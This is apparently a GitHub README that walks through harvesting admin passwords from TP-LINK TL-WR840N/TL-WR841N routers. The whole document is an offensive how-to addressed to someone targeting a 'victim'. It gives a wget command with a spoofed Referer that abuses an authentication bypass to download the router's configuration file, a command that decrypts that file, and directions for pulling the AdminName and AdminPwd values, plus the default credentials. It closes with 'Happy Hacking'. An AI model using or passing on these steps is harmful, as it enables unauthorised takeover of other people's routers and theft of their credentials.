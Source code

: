 # TP-LINK Routers Admin Account Password Harvesting Vulnerability.
This **Vulnerability** basically uses another [Vulnerability](https://www.exploit-db.com/exploits/44781) which is a **limited authentication bypass vulnerability** using which it downloads the configuration file of the Router.

This **configuration file(conf.bin)** is the **most sensitive piece of information** that a **Hacker** would love to have of its **Victim.**
But this configuration file is **Encrypted** by the Vendor (Essentially **TP-LINK**).

*Fortunately,* This configuration can be **Decrypted.** To Exploit this just follow the following guidelines:-

# The Game Show

## Getting The File

First of all you need to download the configuration file using the **Wget** utility using the following command:-
> wget -d --header="User-Agent: Mozilla/5.0 (Windows NT 6.0) AppleWebKit/537.11 (KHTML, like Gecko) Chrome/23.0.1271.97 Safari/537.11" --header="Referer: http://192.168.0.1/mainFrame.htm" --header="Accept-Encoding: compress, gzip" http://192.168.0.1/cgi/conf.bin

You can customize the headers by yourself also but just remind not to omit the **Referer** Header.

Now, As you got the configuration file, next step is to decrypt it.

## Decrypting the File
As to decrypt the file you will need the file given in this repository.
I got this Decrypting Script from another Github [Repository](https://github.com/sta-c0000/tpconf_bin_xml) 
**Thanks "sta-c0000"**

Use the following command to decrypt the conf.bin file:-
>python3 decrypt.py conf.bin conf.xml

You can change the last argument to change the filename as desired.
In this .xml file you will find all the configuration of the router.
To Quickly find the admin username and password,search admin within the file.
Then you will find the AdminName and AdminPwd tags.
And their values will be in the *val* variable.
Like This:-
>
      <AdminName val=Alexis />
      <AdminPwd val=$up3rS3cuRePA$$W0rd! />

**Note:**
You will not be able to open the .xml file in most .xml editors due to some header problems.
Simply Open the file using Nano,Vim,Notepad++,etc.
**Please Note that if you not find these tags in the .xml file then the Victim is using Default Credentials.**

**Which Are:-**
*user: admin*
*password: admin*

# Affected Devices
At this time it is not known that how many devices are Vulnerable To this technique.
But the devices which i tested on are:

- TL-WR840N
- TL-WR841N

**Some Other Routers of TP-LINK are also vulnerable of a similar kind of attack**

- WL-WA850RE

[Link To the Repository](https://gist.github.com/eacmen/)

Happy Hacking!!! 🤑
